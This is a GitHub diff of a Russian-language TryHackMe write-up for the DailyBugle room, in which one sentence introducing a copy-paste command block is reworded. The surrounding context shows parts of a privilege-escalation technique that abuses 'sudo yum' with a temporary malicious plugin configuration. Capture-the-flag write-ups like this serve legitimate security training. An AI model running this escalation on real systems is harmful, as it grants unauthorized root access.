

Before and after one commit to 0x2d-pentest/TryHackMe, a Markdown page: Lin Hard - DailyBugle/writeup.md, the part around the change. Rendered like a GitHub page.

````diff
--- a/Lin Hard - DailyBugle/writeup.md
+++ b/Lin Hard - DailyBugle/writeup.md
@@ -341,7 +341,7 @@ sudo yum -c $TF/x --enableplugin=y
 ```
 
 Но придется руками копировать и вставлять построчно - не вариант.
-Так проще, только один раз copy-paste:
+Следующий код достаточно просто скопировать и вставить:
 ```
 TF=$(mktemp -d) && \
 echo -e "[main]\nplugins=1\npluginpath=$TF\npluginconfpath=$TF" > "$TF/x" && \
````
